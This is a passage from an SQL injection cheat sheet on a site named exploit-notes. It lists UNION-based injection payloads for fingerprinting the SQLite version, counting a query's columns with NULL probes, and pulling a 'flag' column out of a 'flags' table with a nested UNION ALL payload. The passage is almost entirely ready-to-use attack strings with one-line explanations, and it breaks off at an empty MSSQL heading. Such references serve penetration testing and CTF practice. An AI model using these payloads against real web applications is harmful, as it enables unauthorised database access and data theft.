### [SQLite](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#sqlite)

```html
' UNION SELECT sqlite_version()--
' UNION SELECT sqlite_version(),NULL--
```

  

## [Detect Number of Columns](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#detect-number-of-columns)

The following commands detect the number of the columns in the database.

```html
' UNION SELECT NULL--
' UNION SELECT NULL-- -

' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL-- -

' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL-- -

' UNION SELECT 'a',NULL,NULL--
' UNION SELECT 'a',NULL,NULL-- -

' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,'a',NULL-- -

' UNION SELECT NULL,NULL,'a'--
' UNION SELECT NULL,NULL,'a'-- -
```

### [UNION ALL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#union-all)

We can combine the result of the query into the one column by using “UNION ALL” syntax.

```txt
' UNION ALL SELECT "' UNION SELECT flag,NULL,NULL from flags-- -",NULL,NULL from users-- -
```

  

## [List Table Names](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#list-table-names)

Get the table name in which you want to get the information.

### [MSSQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#mssql-1)
